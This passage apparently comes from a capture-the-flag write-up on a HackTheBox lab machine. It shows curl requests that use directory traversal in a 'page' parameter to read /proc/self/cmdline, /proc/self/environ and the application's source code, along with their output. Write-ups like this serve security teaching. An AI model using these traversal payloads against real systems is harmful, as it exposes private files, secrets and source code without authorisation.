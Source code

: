 ```

oxdf@hacky$ curl http://bagel.htb:8000/?page=../../../../proc/self/cmdline
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
oxdf@hacky$ curl -o- http://bagel.htb:8000/?page=../../../../proc/self/cmdline
python3/home/developer/app/app.py

```

This file uses null bytes to terminate the command string and the argument string, which makes the output “binary” and `curl` complains. Adding `-o-` is typically good enough to say “print the result to the terminal anyway”. There is an invisible null byte between `python3` and `/home`. If I want to be detailed, I can use `tr` to replace the nulls with spaces:

```

oxdf@hacky$ curl -o- -s http://bagel.htb:8000/?page=../../../../proc/self/cmdline | tr '\000' ' '
python3 /home/developer/app/app.py 

```

I can also get the environment variables from `environ` (this time replacing null with newline):

```

oxdf@hacky$ curl -s http://bagel.htb:8000/?page=../../../../proc/self/environ -o- | tr '\000' '\n'
LANG=en_US.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin
HOME=/home/developer
LOGNAME=developer
USER=developer
SHELL=/bin/bash
INVOCATION_ID=3f19c33fc85b4cc0aa821a93d7deb345
JOURNAL_STREAM=8:25240
SYSTEMD_EXEC_PID=892

```

The process is running as developer (which makes sense as it’s running out of developer’s home directory).

I can also use the command line to get the path to the source:

```

oxdf@hacky$ curl -o- -s http://bagel.htb:8000/?page=../../../../home/developer/app/app.py
from flask import Flask, request, send_file, redirect, Response
import os.path
...[snip]...

```

### Source Code Analysis
